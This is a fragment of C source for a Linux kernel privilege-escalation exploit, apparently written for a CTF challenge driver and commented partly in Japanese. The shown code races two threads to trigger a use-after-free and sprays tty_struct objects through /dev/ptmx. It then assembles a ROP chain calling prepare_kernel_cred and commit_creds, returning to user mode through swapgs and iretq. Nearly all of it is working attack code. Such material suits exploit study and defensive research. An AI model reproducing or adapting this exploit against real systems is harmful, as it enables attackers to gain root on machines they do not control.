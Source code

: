 ```exploit-only-work-in-local.c
  return (void*)((ulong*)rbuf)[0];
}

static void* appender(void *arg){
  int result = 0;
  char wbuf[0x200];
  memset(wbuf, 'A', 0x200);
  while(leaked == -1){
    result = _append(nutfd, target_idx, 0x0, 0x1, wbuf);
    if(result >= 0){
      ++append_count;
      if(append_count % 0x100 == 0)
        printf("[-] append: 0x%lx\n", append_count);
    }
  }
  puts("[+] appender returning...");
}

static void* writer(void *arg){
  char rbuf[0x400];
  int result;
  int tmpfd;
  ulong writer_counter = 0;

  while(leaked == -1){
    // kUAFできていた場合に備えてtty_structを確保
    tmpfd = open("/dev/ptmx", O_RDWR | O_NOCTTY);
    result = _show(nutfd, target_idx, rbuf);
    if(result < 0){ // idx0が存在しなy
      close(tmpfd);
      continue;
    }
    // idx0が入れたはずの値じゃなければkUAF成功 
    if(((ulong*)rbuf)[0] != 0x4242424242424242){
      leaked = 1;
      // do my businness first
      _delete(nutfd, target_idx);

      // gen chain
      chain = (ulong*)((ulong)rbuf + 8);
      *chain++ = kernbase + 0x14ED59; // pop rdi, pop rsi // MUST two pops
      *chain++ = ((ulong*)rbuf)[2];
      *chain++ = ((ulong*)rbuf)[7] & ~0xFFFUL;  // this is filled by tty_struct's op

      *chain++ = kernbase + 0x001BDD; // 0xffffffff81001bdd: pop rdi ; ret  ;  (6917 found)
      *chain++ = 0;
      *chain++ = kernbase + 0x08C3C0; // prepare_kernel_cred
      *chain++ = kernbase + 0x0557B5; // pop rcx
      *chain++ = 0;
      *chain++ = kernbase + 0xA2474B; // mov rdi, rax, rep movsq
      *chain++ = kernbase + 0x08C190; // commit_creds

      *chain++ = kernbase + 0x0557b5; // pop rcx
      *chain++ = kernbase + 0x00CF31; // [starter] leave

      //*chain++ = kernbase + 0x0557b5; // pop rcx
      //*chain++ = 0xBBBBBBBBBBBBB;
      //*chain++ = kernbase + 0xC00E26; // swapgs 0xffffffff81c00e26 mov rdi,cr3 (swapgs_restore_regs_and_return_to_usermode)
      *chain++ = kernbase + 0xc00e06;

      *chain++ = 0xEEEEEEEEEEEEEEEE;
      *chain++ = kernbase + 0x0AD147; // 0xffffffff81026a7b: 48 cf iretq
```